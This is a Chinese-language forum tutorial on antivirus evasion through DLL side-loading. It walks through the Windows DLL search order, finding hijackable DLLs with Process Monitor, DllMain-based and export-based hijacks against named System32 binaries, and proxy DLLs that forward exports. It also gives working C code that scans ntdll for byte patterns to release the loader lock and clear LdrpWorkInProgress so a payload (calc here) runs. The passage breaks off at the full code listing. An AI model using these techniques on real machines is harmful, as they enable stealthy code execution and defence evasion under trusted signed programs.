# 免杀基础-dll侧加载-先知社区

> **来源**: https://xz.aliyun.com/news/17030  
> **文章ID**: 17030

---

# DLL加载顺序

<https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order#standard-search-order-for-desktop-applications>

SafeDllSearchMode是否启用决定了加载顺序 默认启用

启用时 顺序如下

```
Known DLLs
 文件所在目录
 C:\Windows\System32\
 C:\Windows\System\
 C:\Windows\
 文件执行目录
 %PATH%
```

如果禁用 顺序如下

```
Known DLLs
 文件所在目录
 文件执行目录
 C:\Windows\System32\
 C:\Windows\System\
 C:\Windows\
 %PATH%
```

Known DLLs下的dll默认会从C:\Windows\System32\下加载

HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs



如果一个具有相同模块名称的DLL已经在内存中加载，系统将使用已加载的DLL而不搜索

我们可以利用Process Monitor观察从什么地方加载了哪些dll

配置filter 操作为load image 进程名为目标进程名称



找一个不在Known DLLs中的dll



如果需要找到加载的所有dll 过滤未找到名称



# 两种方式

dll侧加载一种是基于DllMain的 另一种是基于导出函数的

DllMain执行时会加锁 每次要等待前一个dll加载完成后才会加载下一个dll





这意味着挖导出函数的总是更好的 能省事很多

我们以netiougc.exe为例



创建一个dll 在DllMain中写个messagebox



修改dll名称为dbgcore.dll



现在我们来看基于导出函数的

使用netplwiz.exe

将netplwiz.dll的所有导出函数下断

运行 发现在UsersRunDllW断下了



那么我们的dll导出这样一个函数

```
EXTERN_C __declspec(dllexport) PVOID UsersRunDllW() {
     MessageBoxA(0, 0, 0, 0);
     return 0;
 }
```

这里注意一下不要用extern 会名称粉碎



这里举例的都是C:\Windows\System32\下的程序 这些程序如果不是在system32下运行的话很可疑 所以更好的选择是去挖第三方的带签名程序

# dll proxy

我们自写的DLL 不能实现程序原有的功能 因此要将将我们的DLL作为代理DLL 将指定函数的调用转发到原DLL

重命名原DLL 然后在代理DLL中动态加载并调用即可

这里我们再换一个exe

iscsicli







其它函数全部映射到iscsidscOri中 如

#pragma comment(linker,"/EXPORT:AddISNSServerA=iscsidscOri.AddISNSServerA")

# 释放LoaderLock

<https://elliotonsecurity.com/perfect-dll-hijacking/>

如文章所说 ntdll导出了LdrUnlockLoaderLock

```
NTSTATUS __fastcall LdrUnlockLoaderLock(__int64 flags, PVOID cookie)
 {
   NTSTATUS status; // ebx
 
   if ( (flags & 0xFFFFFFFE) == 0 )
   {
     status = 0;
     if ( !cookie )
       return status;
     if ( (unsigned __int64)cookie >= 0x1000000000000000LL )
     {
       if ( (flags & 1) != 0 )
         RtlRaiseStatus(0xC00000F0LL);
     }
     else
     {
       if ( ((LODWORD(NtCurrentTeb()->ClientId.UniqueThread) ^ ((unsigned __int64)cookie >> 48)) & 0xFFF) == 0 )
       {
         if ( (flags & 1) != 0 )
           LdrpReleaseLoaderLock(flags, 13LL);
         else
           LdrpReleaseLoaderLock(flags, 14LL);
         return status;
       }
       if ( (flags & 1) != 0 )
         RtlRaiseStatus(0xC00000F0LL);
     }
     return 0xC00000F0;
   }
   if ( (flags & 1) != 0 )
     RtlRaiseStatus(0xC00000EFLL);
   return 0xC00000EF;
 }
```

没有cookie的情况下直接返回 cookie>= 0x1000000000000000

flags必须为1

(cookie >> 48 & 0xfff) = tid

也就是cookie直接就是tid<<48 那么tid的取值就只能小于0x1000 否则直接报0xC00000F0LL 这貌似做不到

于是尝试直接windbg修改rdx 使得条件成立直接调用LdrpReleaseLoaderLock

```
0: kd> u LdrUnlockLoaderLock L 30
 ntdll!LdrUnlockLoaderLock:
 00007ffb`3153c600 4053            push    rbx
 00007ffb`3153c602 4883ec20        sub     rsp,20h
 00007ffb`3153c606 f7c1feffffff    test    ecx,0FFFFFFFEh
 00007ffb`3153c60c 0f8596a80400    jne     ntdll!LdrUnlockLoaderLock+0x4a8a8 (00007ffb`31586ea8)
 00007ffb`3153c612 33db            xor     ebx,ebx
 00007ffb`3153c614 4885d2          test    rdx,rdx
 00007ffb`3153c617 7508            jne     ntdll!LdrUnlockLoaderLock+0x21 (00007ffb`3153c621)
 00007ffb`3153c619 8bc3            mov     eax,ebx
 00007ffb`3153c61b 4883c420        add     rsp,20h
 00007ffb`3153c61f 5b              pop     rbx
 00007ffb`3153c620 c3              ret
 00007ffb`3153c621 48b80000000000000010 mov rax,1000000000000000h
 00007ffb`3153c62b 483bd0          cmp     rdx,rax
 00007ffb`3153c62e 0f838ea80400    jae     ntdll!LdrUnlockLoaderLock+0x4a8c2 (00007ffb`31586ec2)
 00007ffb`3153c634 65488b042530000000 mov   rax,qword ptr gs:[30h]
 00007ffb`3153c63d 48c1ea30        shr     rdx,30h
 00007ffb`3153c641 8b4048          mov     eax,dword ptr [rax+48h] ; TID
 00007ffb`3153c644 4833d0          xor     rdx,rax
 00007ffb`3153c647 48f7c2ff0f0000  test    rdx,0FFFh
 00007ffb`3153c64e 0f8588a80400    jne     ntdll!LdrUnlockLoaderLock+0x4a8dc (00007ffb`31586edc)
 00007ffb`3153c654 f6c101          test    cl,1
 00007ffb`3153c657 740e            je      ntdll!LdrUnlockLoaderLock+0x67 (00007ffb`3153c667)
 00007ffb`3153c659 4533c0          xor     r8d,r8d
 00007ffb`3153c65c 418d500d        lea     edx,[r8+0Dh]
 00007ffb`3153c660 e80711fbff      call    ntdll!LdrpReleaseLoaderLock (00007ffb`314ed76c)
 00007ffb`3153c665 ebb2            jmp     ntdll!LdrUnlockLoaderLock+0x19 (00007ffb`3153c619)
 00007ffb`3153c667 4533c0          xor     r8d,r8d
 00007ffb`3153c66a 418d500e        lea     edx,[r8+0Eh]
 00007ffb`3153c66e e8f910fbff      call    ntdll!LdrpReleaseLoaderLock (00007ffb`314ed76c)
 00007ffb`3153c673 eba4            jmp     ntdll!LdrUnlockLoaderLock+0x19 (00007ffb`3153c619)
 00007ffb`3153c675 8bd8            mov     ebx,eax
 00007ffb`3153c677 baa2140000      mov     edx,14A2h
 00007ffb`3153c67c 4533c9          xor     r9d,r9d
 00007ffb`3153c67f 41b00e          mov     r8b,0Eh
 00007ffb`3153c682 8bc8            mov     ecx,eax
 00007ffb`3153c684 e89b160000      call    ntdll!LdrpLogError (00007ffb`3153dd24)
 00007ffb`3153c689 eb8e            jmp     ntdll!LdrUnlockLoaderLock+0x19 (00007ffb`3153c619)
```

依旧死锁

我们先不管 因为外层cookie解决不了了 先尝试直接调用LdrpReleaseLoaderLock

该函数是未导出的 需要搜特征码

```
pLdrUnlockLoaderLock LdrUnlockLoaderLock = (pLdrUnlockLoaderLock)GetProcAddress(ntDll, "LdrUnlockLoaderLock");
         PUCHAR tem = (PUCHAR)LdrUnlockLoaderLock;
         pLdrpReleaseLoaderLock LdrpReleaseLoaderLock;
         for (int i = 0; i < 0x100; i++) {
             if (tem[i] == 0xe8 && tem[i + 5] == 0xEB && tem[i + 7] == 0x45&& tem[i + 8] == 0x33&& tem[i + 9] == 0xc0) {
                 LONG offset = *(PLONG)(tem+i+1);
                 // std::stringstream ss;
                 // ss << std::hex << offset;
                 // std::string str = ss.str();
                 // MessageBoxA(0, str.c_str(), 0, 0);
                 LdrpReleaseLoaderLock = (pLdrpReleaseLoaderLock)(tem+i+5+ offset);
                 break;
             }
         }
         // std::stringstream ss;
         // ss << LdrpReleaseLoaderLock;
         // std::string str = ss.str();
         // MessageBoxA(0, str.c_str(), 0, 0);
         
         LdrpReleaseLoaderLock(0, 0, 0);
         ShellExecute(NULL, L"open", L"calc", NULL, NULL, SW_SHOW);
```

现在执行完了 LoaderLock也释放了 但是依旧没有执行calc



现在卡在NtWaitForSingleObject

清除LdrpWorkInProgress

```
PUCHAR RtlExitUserProcess = (PUCHAR)GetProcAddress(ntDll, "RtlExitUserProcess");
 RtlExitUserProcess += 0x6000;
 PVOID LdrpWorkInProgress = NULL;
 for (int i = 0; i < 0x3000; i++) {
     if (RtlExitUserProcess[i] == 0x83 && RtlExitUserProcess[i + 7] == 0x48 && RtlExitUserProcess[i + 14] == 0xe8
         && RtlExitUserProcess[i + 19] == 0x48 && RtlExitUserProcess[i + 26] == 0x33 
         && RtlExitUserProcess[i + 27] == 0xD2 && RtlExitUserProcess[i + 28] == 0x48) {
 
         LONG offset = *(PLONG)(RtlExitUserProcess + i + 2);
         LdrpWorkInProgress = (RtlExitUserProcess + i + 7 + offset);
         break;
     }
 }
 SetEvent((HANDLE)0x40);
 SetEvent((HANDLE)0x4);
 *(PBOOLEAN)LdrpWorkInProgress = FALSE;
```

完整代码

```
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
